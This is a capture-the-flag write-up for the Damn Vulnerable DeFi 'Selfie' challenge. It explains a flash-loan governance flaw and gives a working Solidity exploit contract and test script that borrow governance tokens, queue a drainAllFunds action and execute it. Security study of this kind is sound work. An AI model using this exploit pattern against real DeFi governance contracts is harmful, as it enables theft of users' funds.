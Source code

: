 # Selfie

## Analysis
`SelfiePool` is a simple flash loan pool that allows `onlyGovernance` user to drain the pool

The `flashLoan` routine must be invoked from contract that implements a routine with the signature: `receiveTokens(address, uint256)`

The `drainAllFunds` will drain the funds into a target denoted `receiver` account.

`SimpleGovernance` implements a `governanceToken` used to determine if a user has enough votes to queue an action.
- Q. How does a user acquire `governanceToken`?

    A. By lending from the pool

`actions` is a mapping of ids to `GovernanceAction`

A `GovernanceAction` is an arbitrary routine invoked with some `weiAmount`

An external invoker can interact with the routines `executeAction`, and `queueAction`.

The routine `queueAction` attempts to prevent an invoker from queing an action against the `GovernanceAction`.

The routine `executeAction` routine invokes the arbitrary routine on the target contract denoted `receiver` in the specified action.

## Problem
There exists a sequence of operations that lead to the `drainAllFunds` to be invoked with the attacker's EOA address. This is because `SimpleGovernance`'s `queueAction` does not protect against queuing actions against the pool. `drainAllFunds` is implemented by the pool.

The same token used to manage governance can be flashloaned.

## Exploit

- ExploitSelfie.sol
```.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../selfie/SimpleGovernance.sol";
import "../selfie/SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";

contract ExploitSelfie {

    using Address for address payable;

    SelfiePool immutable private pool;
    SimpleGovernance immutable private governance;
    DamnValuableTokenSnapshot private governanceToken;

    address immutable private  owner;


    constructor (address poolAddr,
     address govAddr) {
        pool = SelfiePool(poolAddr);
        governance = SimpleGovernance(govAddr);
        owner = msg.sender;
    }

    function exploit(uint256 borrowAmount) external payable {
        // invoke flashloan
        // which should trigger receiveTokens
        pool.flashLoan(borrowAmount);

    }

    function receiveTokens(address target, uint256 amount) external payable {
        require(msg.sender == address(pool));

        governanceToken = DamnValuableTokenSnapshot(target);

        governanceToken.snapshot();

        // Queue an action

        // Set up action.data
        // prepare a call for the drainAllFunds function
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            // receiver is attacker/owner
            owner);

        // invoke queueAction
        governance.queueAction(
            address(pool),
            data,
            0
        );

        // payback the loan
        governanceToken.transfer(address(pool), amount);
    }

}
```

- selfie.challenge.js
```.js
    it('Exploit', async function () {

        /** CODE YOUR EXPLOIT HERE */
        const ExploitSelfieFactory = await ethers.getContractFactory("ExploitSelfie", attacker);
        const ExploitSelfie = await ExploitSelfieFactory.deploy(this.pool.address, this.governance.address);

        await ExploitSelfie.connect(attacker).exploit(TOKENS_IN_POOL);

        // advance the time by 2 days
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 day

        await this.governance.executeAction(1);

    });
```

## Explanation
1. `GovernanceAction` can be used to trigger an arbitrary contract call. We need to trigger `drainAllFunds`. This function is owned by `SelfiePool` which will be specified as the queue action receiver.

2. To queue an action, an invoker needs to own more than half of the tokens available. This can be satisfied by borrowing from the pool.

3. The queued action is timed and can be executed after two days. Hence, the loan can be returned in time and the exploit triggered in future.